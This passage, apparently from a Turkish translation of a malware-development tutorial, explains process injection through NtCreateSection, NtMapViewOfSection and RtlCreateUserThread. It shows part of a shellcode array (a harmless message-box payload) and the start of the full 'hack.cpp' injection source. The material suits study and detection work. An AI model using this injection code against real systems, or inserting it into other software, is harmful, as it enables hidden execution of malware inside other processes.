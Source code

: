 ```cpp
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

![code injection 6](./images/32/2021-12-15_18-16.png){width="80%"}    

Ardından, hedef süreçte uzak bir iş parçacığı oluşturuyor ve shellcode'u tetiklemek için hedef süreçteki haritalandırılmış görünüme işaret ediyoruz (`RtlCreateUserThread`):      

![code injection 7](./images/32/2021-12-15_18-18.png){width="80%"}    

![code injection 8](./images/32/2021-12-15_18-19.png){width="80%"}    

Son olarak, temizleme işlemi için `ZwUnmapViewOfSection` kullandım:     

![code injection 9](./images/32/2021-12-15_18-25.png){width="80%"}    

![code injection 10](./images/32/2021-12-15_18-32.png){width="80%"}    

Bu tekniği gösteren tam kod şu şekilde:     
```cpp
/*
 * hack.cpp
 * advanced code injection technique via 
 * NtCreateSection and NtMapViewOfSection
 * author @cocomelonc
 * https://cocomelonc.github.com/tutorial/
 2021/12/13/malware-injection-12.html
*/
#include <iostream>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

#pragma comment(lib, "ntdll")
#pragma comment(lib, "advapi32.lib")

#define InitializeObjectAttributes(p,n,a,r,s) { \
  (p)->Length = sizeof(OBJECT_ATTRIBUTES); \
  (p)->RootDirectory = (r); \
  (p)->Attributes = (a); \
  (p)->ObjectName = (n); \
  (p)->SecurityDescriptor = (s); \
  (p)->SecurityQualityOfService = NULL; \
}

// dt nt!_UNICODE_STRING
typedef struct _LSA_UNICODE_STRING {
  USHORT            Length;
  USHORT            MaximumLength;
  PWSTR             Buffer;
} UNICODE_STRING, * PUNICODE_STRING;

// dt nt!_OBJECT_ATTRIBUTES
typedef struct _OBJECT_ATTRIBUTES {
  ULONG            Length;
  HANDLE           RootDirectory;
  PUNICODE_STRING  ObjectName;
  ULONG            Attributes;
```